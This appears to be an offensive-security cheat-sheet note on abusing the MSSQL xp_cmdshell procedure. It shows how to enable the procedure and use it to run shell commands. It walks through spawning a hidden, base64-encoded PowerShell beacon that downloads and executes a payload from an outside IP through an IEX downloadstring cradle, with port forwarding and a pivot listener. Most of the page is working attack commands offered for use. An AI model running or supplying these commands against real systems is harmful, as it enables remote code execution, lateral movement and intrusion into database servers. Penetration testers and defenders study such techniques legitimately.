 # SQL Command Execution
The **xp_cmdshell** procedure can be used to execute shell commands on the SQL server.

## Exploit
- [[PowerUpSQL#Command Execution]]
- Manually via [[HeidiSQL]] or [[mssqlclient]]
>EXEC xp_cmdshell 'whoami'; 
- Spawn a beacon with
>EXEC xp_cmdshell 'powershell -w hidden -enc [base64_content]';

```beacon
# Create a portforward from a beacon to kali
rportfwd 8080
# create a pivot listener on the beacon
wkstn1-pivot
# create scripted web delivery
/w1 delivering wkstn1-pivot, x64
# use IEX((...)) with replaced ip address
$str = 'IEX((new-object net.webclient).downloadstring("http://10.10.17.231:8080/w1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip
EXEC xp_cmdshell 'powershell -w hidden -enc SQBF[...snip...]AA==';
```

## Enable xp_cmdshell
#OPSEC reset to original state!

To enumerate the current state of xp_cmdshell, use:
>SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

 ![](/Images/Pasted%20image%2020220321170241.png)

>sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```